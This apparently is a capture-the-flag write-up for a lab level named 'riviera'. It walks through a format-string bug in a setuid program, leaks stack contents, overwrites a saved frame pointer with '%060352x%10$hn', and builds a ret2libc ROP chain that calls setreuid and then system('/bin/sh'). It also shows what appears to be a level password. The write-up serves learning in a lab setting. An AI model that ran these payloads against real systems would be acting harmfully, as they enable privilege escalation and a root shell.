

# Level 04

8c33zqo7hytqnsx9h3nb4juf3rdjbd80


## Description

```
$ ls -l
total 28
-r--r--r-- 1 level04 level04    38 Jun  9 23:13 README
-rwsr-x--- 1 flag04  level04 16584 Jun  9 23:13 riviera
-r--r--r-- 1 level04 level04  1866 Jun  9 23:13 riviera.c
```

```
readelf -l riviera
...
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
```

Stack is not executable, so we'll need to perform a ret2libc.

## riviera.c

### No exploit from the input function

```

static void handle_input(void) {
    char tag[32];
    char msg[256];
...
    fgets(tag, 32, stdin);
...
    fgets(msg, 256, stdin);
...
}
```

### display_entry function

```
static void display_entry(unsigned int idx) {
...
    printf(log_buf[idx].tag);
...
}
```

This function is vulnerable to format string attack, as the format string is given by the user and directly fed to `printf()`:

## printf() format string exploit

### How the argument are passed to `printf()`

In the x86-64 ABI, argument 1 to 6 are passed through registers, next arguments are put on the caller's stack.

So argument 7 can be access by the callee using `$rbp + 0x10`. And any `N` argument such as `N >= 7` can be accessed using `$rbp + 0x10 + (0x8 * (N - 7))`.

Example:

```
printf("%p %p %p %p %p %p %p %p", // print 8 args
    0x02, // arg2 => $rsi
    0x03, // arg3 => $rdx
    0x04, // arg4 => $rcx
    0x05, // arg5 => $r8
    0x06, // arg6 => $r9
    0x07, // arg7 => $rbp + 0x10
    0x08  // arg8 => $rbp + 0x18
);
```

`printf` has a method for referencing argument from the format string by their positionnal index instead of reading them sequentially. The syntax is `%[idx]$[format]`

For example, if we want to print a string and its address at the same time with giving the string as the only argument :
```
printf("1$p: 1$s", "hello world");
// 0xffff7c: hello world
```

> **Note**: the positionnal idx actually start from the 2nd argument from the ABI view, meaning `1$` refer to the second argument of the `printf()` call (the first one being the format string), thus the content of `$rsi`.

### Exploiting a format string

Having the control on the format string allows the user to make `printf()` behave as it was given any number of argument, wheither the function was actually called or not with this number of argument.

Example:

```
printf("%p %p %p %p %p %p %p %p", // print 8 args
    // give NO ARGUMENTS
);
/* OUTPUT
0x7fffffffdfb0 0x404080 (nil) 0x75 (nil) (nil) 0x403e00 0x7fffffffe2a0 
*/
```


This output directly shows us what the program's register and stack look like at the time of the `printf()` call.

Now, using positionnal argument becomes really usefull :

```
printf("10$p");
// Directly gives us the content of $rbp + 0x30
printf("100$p");
// Directly gives us the content of $rbp + 0x300
```

Okay, so can now :
- read the actual stack address (usefull for PIE executable, but not in our case)
- guess the different frame offset (we already have the source code + gdb so not really usefull)
- identify the return address targets (again, not really usefull in our case)

#### Writing to the stack using format string

What's interesting is the `%n` format flag of `printf()`.
It is the only flag that actually writes instead of reading.

How does it works ?
```
int n;
printf("number of caracters written so far%n", &n);
printf("%d", n); // Output : 35
```

Now, using the format string exploit and using length modifier, we can write to the stack :
```
printf("number of caracters written so far%10$n");
// Write 35 to the 4 lowest bytes of *($rbp + 0x30)
printf("number of caracters written so far%10$zn");
// Write 35 as uint64_t to *($rbp + 0x30)
```

> **note**: we can't really write to any address of the stack but rather to the address stored by any register on the stack (which makes things slightly harder).

## Exploiting riviera program

Okay, we can write `35` to any stack address, but what we need is to write a proper return address toward `libc`, and those are really huge number (`0x7ffff7d0f84b` for example).

### Override seq address

First let's demonstrate how to exploit the format string in the riviera program.

To start with, let's decompose these instructions :

```
printf("[RIVIERA] [%u] tag=", log_buf[idx].seq);
printf(log_buf[idx].tag);
printf(" msg=%s\n", log_buf[idx].message);
```
The printf function is first called with the sequence number.
```
printf("[RIVIERA] [%u] tag=", log_buf[idx].seq);
```
While making this first call, it is likely that the `seq` address will be somewhere in the registers (gdb may tell us which one, but quicker to test them randomly).

As this address is in a register, we can attempt to write anything to it. Let's try write the number 10, in the address pointed by the 2nd argument ($rdx, the correct register was found randomly).

```
[RIVIERA] Tag: %010x%2$n
[RIVIERA] Message: hello world
[RIVIERA] [0] tag=00ffffdfb0 msg=hello world
[RIVIERA] [10] tag=00ffffe0c0 msg=hello world
```
First we pad the first argument string address with 00 so that it is written as 8 characters, then we store the number of characters written so far (8) to the address stored in $rdx.

Likely (or not), the address stored in `$rdx` is actually the address of the `seq` int.

So at the next call of the `display_entry()` function, it show us the updated value of the `seq` number.

### Guessing the frame layout and the stack address

```
env -i /home/level04/riviera
[RIVIERA] Tag: %6$p %7$p %8$p %9$p %10$p
[RIVIERA] Message: hello world
[RIVIERA] [0] tag=(nil) 0x403e00 0x7fffffffece0 0x401533 0x6f77206f6c6c6568 msg=hello world
[RIVIERA] [0] tag=0x1 (nil) 0x7fffffffece0 0x401555 0x2430312520702439 msg=hello world
```

We have printed, respectively:
- `$rbp + 0x10`: 0x00
- `$rbp + 0x18`: 0x403e00 (loaded address)
- `$rbp + 0x20`: 0x7fffffffece0 (stack address)
- `$rbp + 0x28`: 0x401533 (loaded address)
- `$rbp + 0x30`: 0x6f77206f6c6c6568 ("hello wo" reversed)

Loaded address are particularly interesting because they may indicate return address, and the return address separation indicates the frames layout.

Let's try to figure out what the loaded address refer to :

```
nm -n ./riviera | awk '$1 <= "0000000000401533" { sym=$0 } END { print sym }'; nm -n ./riviera | awk '$1 <= "0000000000403e00" { sym=$0 } END { print sym }'
0000000000401446 t handle_input
0000000000403e00 d __do_global_dtors_aux_fini_array_entry
```

From this we can deduce:
- `$rbp + 0x10`: ?? display_entry() local
- `$rbp + 0x18`: ?? display_entry() local
- `$rbp + 0x20`: saved rbp of handle_input frame (**0x7fffffffece0**)
- `$rbp + 0x28`: handle_input ret address
- `$rbp + 0x30`: msg[256]

Here is the stack representation at the time of the `printf()` call the first time `display_entry()` is called :



### Making the exploit

Using the `%10$zn` flag format, we can write at the address stored in the first 8-byte of msg[] buffer.

And as we control the content of this buffer, that means we can write **to any address**.

The exploit will consist of changing the saved previous frame address toward a fake frame for which the return address points toward the beginning of a ROP chain.

1. Let's write at beginning of msg[] the address of the previous frame saved rbp of the `display_entry()` frame.

2. Then, using `%10$zn`, let's overwrite the saved rbp to make it point toward msg[].

3. Then when returning, from `handle_input()` function, the program will look for the return address at `$rbp + 0x8`, which is in fact &msg[8], and at which we can writes a ROP chain.

#### The tricky part: writing &msg[0] via `%10$zn`

**&msg[0] = 0x7fffffffebc0**

We cannot write `%0140737488350144x%10$zn`, because the value for padding clearly overflow what an int can store.

However we can take advantage of the fact that the saved rbp already contains a stack address: **0x7fffffffece0**.

Turning **0x7fffffffece0** into **0x7fffffffebc0** actually comes down to writing **0xebc0** at the 2-lowest byte of the saved rbp value.

That is `%060352x%10$hn`.

#### Summary

The msg buffer will contain:

```
STACK ADDR     | CONTENT
0x7fffffffebc0 | [addr of saved rbp to override] 0x7fffffffebb0
0x7fffffffebc8 | [ret_addr: pop rdi gadget] 0x7ffff7d0f84b
0x7fffffffebd0 | [arg1: UID of flag04] 1021
0x7fffffffebd8 | [ret_addr: pop rsi gadget] 0x7ffff7d10b3d
0x7fffffffebe0 | [arg1: UID of flag04] 1021
0x7fffffffebe8 | [ret_addr: setreuid] 0x7ffff7d27330
0x7fffffffebf0 | [ret_addr: pop rdi gadget] 0x7ffff7d0f84b
0x7fffffffebf8 | [arg1: addr of /bin/sh] 0x7ffff7dcc42f
0x7fffffffec00 | [ret_addr: system] 0x7ffff7c58750
```